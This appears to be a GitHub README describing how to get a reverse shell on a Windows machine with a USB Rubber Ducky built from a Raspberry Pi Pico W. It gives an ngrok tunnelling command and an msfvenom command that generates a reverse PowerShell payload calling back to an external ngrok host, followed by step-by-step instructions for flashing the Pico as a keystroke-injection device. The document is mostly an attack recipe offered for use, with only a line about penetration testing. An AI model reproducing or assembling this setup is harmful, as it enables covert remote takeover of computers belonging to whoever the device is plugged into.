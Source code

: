 # Reverse-shell-by-usb-rubber-ducky
## Introduction
A reverse shell is a type of shell in which the target machine communicates back to the attacker's machine. It is a technique often used in hacking and penetration testing for remote access to a system<br><br>
The USB Rubber Ducky is a type of programmable USB device which looks like a regular USB flash drive, but it's designed to function as a keyboard emulator. When plugged into a computer, the USB Rubber Ducky can quickly type pre-programmed keystroke payloads, essentially simulating a human typing at a very fast rate.
## Payload for reverse shell
To obtain a reverse shell from a target machine, you can utilize the MSFVenom tool to generate a Windows reverse PowerShell payload. This payload will allow you to establish a connection back to your machine, giving you remote access to the target system<br><br>
For port forwarding
```ngrok tcp 8080```<br><br>
```msfvenom -p cmd/windows/reverse_powershell lhost=0.tcp.in.ngrok.io lport=10448 > ayush.bat ```<br><br>
## Rasberry pi pico w as rubber ducky
1. Clone the repo to get a local copy of the files. `git clone https://github.com/dbisu/pico-ducky.git`
2. Download [CircuitPython for the Raspberry Pi Pico W](https://circuitpython.org/board/raspberry_pi_pico_w/). *Updated to 8.0.0
3. Plug the device into a USB port while holding the boot button. It will show up as a removable media device named `RPI-RP2`.
4. Copy the downloaded `.uf2` file to the root of the Pico (`RPI-RP2`). The device will reboot and after a second or so, it will reconnect as `CIRCUITPY`.
5. Download `adafruit-circuitpython-bundle-8.x-mpy-YYYYMMDD.zip` [here](https://github.com/adafruit/Adafruit_CircuitPython_Bundle/releases/latest) and extract it outside the device.
6. Navigate to `lib` in the recently extracted folder and copy `adafruit_hid` to the `lib` folder on your Raspberry Pi Pico.
7. Copy `adafruit_debouncer.mpy` and `adafruit_ticks.mpy` to the `lib` folder on your Raspberry Pi Pico.
8. Copy `asyncio` to the `lib` folder on your Pico.
9. Copy `adafruit_wsgi` to the `lib` folder on your Pico.
10. Copy `boot.py` from your clone to the root of your Pico.
11. Copy `duckyinpython.py`, `code.py`, `webapp.py`, `wsgiserver.py` to the root folder of the Pico.
    
